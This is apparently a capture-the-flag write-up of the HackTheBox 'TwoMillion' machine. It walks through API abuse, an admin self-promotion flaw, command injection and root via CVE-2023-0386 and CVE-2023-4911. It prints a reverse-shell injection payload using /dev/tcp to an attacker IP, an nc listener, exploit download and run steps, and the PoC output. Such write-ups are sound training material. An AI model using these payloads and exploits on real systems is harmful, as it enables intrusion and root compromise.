







`[JS DEOBFUSCATION]` `[API ABUSE]` `[IDOR]` `[COMMAND INJECTION]` `[CREDENTIAL REUSE]` `[CVE-2023-0386]` `[CVE-2023-4911]`

# TwoMillion


**HackTheBox Easy — by jhaxx**

---

## Scenario

### Objective / Scope

The target is `2million.htb`, a Linux host running an nginx-fronted web application that recreates the original HackTheBox v1 platform — the invite-only environment that defined the early community. Scope covers the exposed web application and SSH service. The objective is to chain API abuse and command injection to gain an initial foothold, then escalate to root via a disclosed Linux kernel vulnerability in the OverlayFS subsystem.

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn 10.129.229.66
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Key observations:
- HTTP immediately redirects to `2million.htb` — add to `/etc/hosts` before proceeding
- **`HttpOnly` flag not set** on `PHPSESSID` — session is theoretically hijackable via XSS

```bash
echo '10.129.229.66  2million.htb' | sudo tee -a /etc/hosts
```

---

## Enumeration

### Dirsearch

```bash
dirsearch -u http://2million.htb
```

```
[15:26:44] 301 -  162B  - /js       -> http://2million.htb/js/
[15:27:01] 401 -    0B  - /api
[15:27:01] 401 -    0B  - /api/v1
[15:27:02] 403 -  548B  - /assets/
[15:27:08] 403 -  548B  - /controllers/
[15:27:20] 200 -    4KB - /login
[15:27:20] 302 -    0B  - /logout   -> /
[15:27:31] 200 -    4KB - /register
```

`/api` and `/api/v1` return `401` — they exist but require authentication. VHost fuzzing returns nothing.

### Manual Inspection

The web root loads a themed recreation of the HackTheBox v1 platform. Registration at `/register` requires an invite code. Opening DevTools (F12) and monitoring the **Network** tab during page load reveals a GET request to `/js/inviteapi.min.js`.



---

## Initial Access

### JavaScript Deobfuscation

The contents of `inviteapi.min.js` are a single packed `eval()` expression — a `p,a,c,k,e,d` obfuscation that compresses identifiers into single characters and reconstructs them at runtime from a keyword dictionary. Pasting the content into [beautifier.io](https://beautifier.io) unpacks it into two readable functions:

- `verifyInviteCode(code)` — POSTs a code to `/api/v1/invite/verify`
- `makeInviteCode()` — POSTs to `/api/v1/invite/how/to/generate` for generation instructions


This obfuscation provides no security. Since the unpacking logic runs in the browser, any attacker who can read the page source can reverse it. True validation must happen server-side.

### Generating the Invite Code

We call the instructions endpoint:

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq .
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

The response is ROT13-encoded. Alternatively, calling `makeInviteCode()` directly in the browser console returns the same result:



Decoding via CyberChef yields: *"In order to generate the invite code, make a POST request to `/api/v1/invite/generate`"*.


```bash
curl -X POST http://2million.htb/api/v1/invite/generate | jq .
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "<BASE64 REDACTED>",
    "format": "encoded"
  }
}
```

```bash
echo '<BASE64 REDACTED>' | base64 -d
```

```
<INVITE CODE REDACTED>
```

We use the decoded invite code to register an account at `/invite` and log in.

> **Note:** The invite code is session-specific and rotates on box reset.


After registering and logging in we land on the HTB v1 dashboard:


### API Route Enumeration

After logging in, we intercept the "Connection Pack" download from the `/home/access` page in Burp. The underlying request hits `/api/v1/user/vpn/generate`. Trimming the path to `/api/v1` and issuing a GET with our session cookie returns the full route map:

```bash
curl -s http://2million.htb/api/v1 -H 'Cookie: PHPSESSID=<REDACTED>' | jq .
```

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```


Three admin endpoints are disclosed to any authenticated user. We confirm our current account is not admin:



### Mass Assignment — Ruled Out

Before targeting the admin settings endpoint, we test whether `is_admin` can be injected during registration. Intercepting the `/api/v1/user/register` POST in Burp and appending `"is_admin": 1` to the body has no effect — the resulting account still has `is_admin: 0`.


The registration endpoint ignores unrecognised fields. The settings update endpoint is the actual attack surface.

### IDOR — Gaining Admin via Settings Update

Poking at `PUT /api/v1/admin/settings/update` step-by-step reveals required parameters through its error responses:







Submitting all three:

```bash
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update \
  -H 'Cookie: PHPSESSID=<REDACTED>' \
  -H 'Content-Type: application/json' \
  -d '{"email": "jhaxx@2million.htb", "is_admin": 1}' | jq .
```

```json
{"id": 13, "username": "jhaxx", "is_admin": 1}
```

The server updates the privilege field without verifying the requesting user already holds admin rights — a missing authorisation check, not a missing authentication check. Any authenticated user can self-promote.



### Command Injection — Shell as `www-data`

The `POST /api/v1/admin/vpn/generate` endpoint accepts a `username` field and generates a VPN configuration. We test for command injection by appending a subshell expression:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=<REDACTED>
Content-Type: application/json

{"username":"asdfasdf$(whoami)"}
```

```
Subject: C=GB, ST=London, L=London, O=asdfasdfwww-data, CN=asdfasdfwww-data
```

`www-data` appears embedded in the certificate Subject field — the `username` value is passed unsanitized to a shell command. We escalate to a full reverse shell:

```
{"username":"asdfasdf$(bash -c 'exec bash -i &>/dev/tcp/10.10.16.27/4444 <&1')"}
```

```bash
nc -lvnp 4444
```

```
connect to [10.10.16.27] from (UNKNOWN) [10.129.229.66] 42740
www-data@2million:~/html$
```


---

## Lateral Movement — `admin`

### Credential Leak in `.env`

The web root contains a `.env` file with plaintext database credentials — a development artifact left in the production deployment:

```bash
cat /var/www/html/.env
```

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=<REDACTED>
```

The database password is reused as the system account password for `admin`. We switch user from the `www-data` shell and then establish SSH for a stable session:

```bash
su admin
# Password: <REDACTED>
```

```bash
ssh admin@2million.htb
```

```
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
You have mail.
admin@2million:~$
```

```bash
cat /home/admin/user.txt
```

```
<FLAG REDACTED>
```

The `You have mail.` banner is worth investigating during local enumeration.

---

## Enumeration as `admin`

### Sudo & Listening Services

```bash
sudo -l
```

```
Sorry, user admin may not run sudo on localhost.
```

```bash
ss -tl
```

```
LISTEN  127.0.0.1:mysql     0.0.0.0:*
LISTEN  127.0.0.1:11211     0.0.0.0:*
LISTEN  0.0.0.0:http        0.0.0.0:*
LISTEN  0.0.0.0:ssh         0.0.0.0:*
```

MySQL is listening locally. We connect with the `.env` credentials:

```bash
mysql -u admin -p'<REDACTED>' htb_prod
```

```
MariaDB [htb_prod]> show tables;
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+

MariaDB [htb_prod]> select username, password, is_admin from users;
+-----------------+--------------------------------------------------------------+----------+
| username        | password                                                     | is_admin |
+-----------------+--------------------------------------------------------------+----------+
| TRX             | <HASH REDACTED>                                              |        1 |
| TheCyberGeek    | <HASH REDACTED>                                              |        1 |
| jhaxx           | <HASH REDACTED>                                              |        0 |
| MassAsssignment | <HASH REDACTED>                                              |        1 |
+-----------------+--------------------------------------------------------------+----------+
```

All passwords are `bcrypt` hashes (`$2y$`, Hashcat mode `-m 3200`). Offline cracking was unsuccessful — moving on.

### Mail — CVE Hint

```bash
find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```

```
/home/admin
/home/admin/.mysql_history
/home/admin/.ssh
/var/mail/admin
```

```bash
cat /var/mail/admin
```

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Subject: Urgent: Patch System OS

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially
down, can you also upgrade the OS on our web host? There have been a few serious Linux
kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get
popped by that.

Best, ch4p
```

The mail explicitly names OverlayFS / FUSE — pointing to **CVE-2023-0386**. We confirm the kernel:

```bash
uname -a
```

```
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64
```

Kernel `5.15.70` predates the fix (patched in 6.2). The host is vulnerable.

---

## Privilege Escalation

### CVE-2023-0386 — OverlayFS FUSE LPE

**Vulnerability**: CVE-2023-0386 abuses a flaw in the Linux OverlayFS implementation. When a file is copied up from a lower FUSE-backed layer into the OverlayFS upper layer, the kernel fails to strip SUID/SGID bits even when the file is owned by a non-root user. An unprivileged attacker can craft a FUSE filesystem that presents a SUID binary, trigger a copy-up via OverlayFS, and obtain an owned SUID binary that executes as root. Affected: Linux < 6.2 with user namespaces enabled (default on Ubuntu 22.04).

Clone and compile the PoC on the attack machine, then transfer:

```bash
# Attack machine
git clone https://github.com/sxlmnwb/CVE-2023-0386
cd CVE-2023-0386 && make all
tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386
python3 -m http.server 80
```

```bash
# Target
cd /tmp
wget http://10.10.16.27/CVE-2023-0386.tar.bz2
tar -xjvf CVE-2023-0386.tar.bz2
cd CVE-2023-0386
```

The exploit requires two concurrent terminal sessions on the target. In terminal 1:

```bash
./fuse ./ovlcap/lower ./gc
```

```
[+] len of gc: 0x3ef0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
```

In terminal 2, immediately:

```bash
./exp
```

```
uid:33 gid:33
[+] mount success
total 8
-rwsrwxrwx 1 nobody nogroup 16112 Jan  1  1970 file
[+] exploit success!
root@2million:/tmp# whoami
root
```

```bash
cat /root/root.txt
```

```
<FLAG REDACTED>
```

---

### Alternative Path — CVE-2023-4911 (Looney Tunables)


The same host is also vulnerable to **CVE-2023-4911**, a buffer overflow in glibc's `ld.so` dynamic loader triggered via a malformed `GLIBC_TUNABLES` environment variable. Verify exploitability:

```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" \
    "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

```
Segmentation fault (core dumped)
```

A segfault confirms the glibc version (`2.35-0ubuntu3.1`) is vulnerable. Run the public PoC:

```bash
python3 gnu-acme.py
```

```
      $$$ glibc ld.so (CVE-2023-4911) exploit $$$
            -- by blasty <peter@haxx.in> --

[i] libc = /lib/x86_64-linux-gnu/libc.so.6
[i] suid target = /usr/bin/su, suid_args = ['--help']
[i] ld.so = /lib64/ld-linux-x86-64.so.2
[i] ld.so build id = 61ef896a699bb1c2e4e231642b2e1688b2f1a61e
[i] __libc_start_main = 0x29dc0
[i] using hax path b'"' at offset -20
[i] wrote patched libc.so.6
[i] using stack addr 0x7ffe1010100c
.................# ** ohh... looks like we got a shell? **

id
uid=0(root) gid=1000(admin) groups=1000(admin)
```

The script brute-forces stack addresses to defeat ASLR (each dot is one blind attempt), patches a copy of `libc.so.6` with SUID shellcode, and exploits the overflow in `ld.so` to load the weaponised library under `/usr/bin/su`'s SUID root context. Because each failed attempt generates a segfault, this path leaves a significant trail in `/var/log/kern.log`.

> CVE-2023-0386 is the intended path (signposted by the mail) and is operationally quieter. CVE-2023-4911 is noisier but equally effective on this host.

---

## Vulnerability Summary

| # | Vulnerability | Impact |
|---|---|---|
| 1 | Unauthenticated invite code generation API | Unrestricted account registration |
| 2 | API route map exposed to all authenticated users | Admin endpoint discovery |
| 3 | Missing authorisation on `PUT /api/v1/admin/settings/update` | Any user can self-promote to admin (IDOR) |
| 4 | Unsanitized `username` field passed to shell in VPN generation endpoint | RCE as `www-data` |
| 5 | Plaintext DB credentials in `.env` reused as system account password | Lateral movement to `admin` |
| 6 | Unpatched kernel 5.15.70 — CVE-2023-0386 / CVE-2023-4911 | Local privilege escalation to root |
